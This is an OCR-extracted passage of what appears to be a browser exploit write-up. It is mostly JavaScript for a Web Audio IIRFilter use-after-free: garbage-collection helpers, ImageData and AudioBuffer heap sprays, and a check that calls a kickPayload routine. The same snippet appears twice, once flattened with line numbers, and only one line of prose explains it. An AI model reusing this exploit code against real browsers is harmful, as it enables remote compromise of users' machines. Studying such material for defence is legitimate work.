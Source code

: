         		iirFilters = new Array(1);
    	     		await collectGargabe();
 
        		for (let j = 0; j < 336; j++)
            			imageDataArray.push(new ImageData(1, 2));
        		imageDataArray = new Array(10);
        		await collectGargabe();
 
        		for (let j = 0; j < audioBufferArray1.length; j++) {
            			let auxArray = new BigUint64Array(audioBufferArray1[j].getChannelData(0).buffer);
            			if (auxArray[0] != BigInt(0)) {
                			kickPayload(auxArray);
                			return;
            			}
             		}
 
        		return;
    		}
	}
}




12345678910111213141516171819202122232425262728293031323334

async function finalUAFCallback() { for (let i = 0; i < 256; i++) {    		floatArray.fill(0);          	iirFilters[i].getFrequencyResponse(floatArray, floatArray, floatArray);     		if (floatArray[0] != 3.1415927410125732) {        		await collectGargabe();         		audioBufferArray2 = [];         		for (let j = 0; j < 80; j++)                 		audioBufferArray1.push(sharedAudioCtx.createBuffer(1, 2, 10000));         		iirFilters = new Array(1);    	     		await collectGargabe();         		for (let j = 0; j < 336; j++)            			imageDataArray.push(new ImageData(1, 2));        		imageDataArray = new Array(10);        		await collectGargabe();         		for (let j = 0; j < audioBufferArray1.length; j++) {            			let auxArray = new BigUint64Array(audioBufferArray1[j].getChannelData(0).buffer);            			if (auxArray[0] != BigInt(0)) {                			kickPayload(auxArray);                			return;            			}             		}         		return;    		} }}




Heap defragmentation is performed with multiple calls to the improvised collectGarbage function that creates a huge ArrayBuffer in a loop.





function collectGargabe() {
	let promise = new Promise(function(cb) {
    		let arg;
    		for (let i = 0; i < 400; i++)
        		new ArrayBuffer(1024 * 1024 * 60).buffer;
    		cb(arg);
	});
	return promise;
}




123456789
